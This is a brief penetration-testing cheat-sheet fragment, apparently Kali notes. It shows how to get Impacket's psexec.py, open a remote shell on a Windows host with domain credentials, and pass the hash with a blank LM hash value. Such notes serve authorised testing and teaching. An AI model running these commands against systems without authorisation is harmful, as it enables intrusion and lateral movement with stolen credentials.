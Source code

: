 ```python - kali
python3 /usr/share/doc/python3-impacket/examples/psexec.py --help
```

or

```bash - kali
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/psexec.py
```

#### Shell with psexec.py
```python - kali
psexec.py $DOMAIN/$USER:$PASSWORD@$TARGET
```

#### Passing the hash (blank LM hash)
```bash  - kali
psexec.py $DOMAIN/$USER@$TARGET -hashes aad3b435b51404eeaad3b435b51404ee:$HASH
```
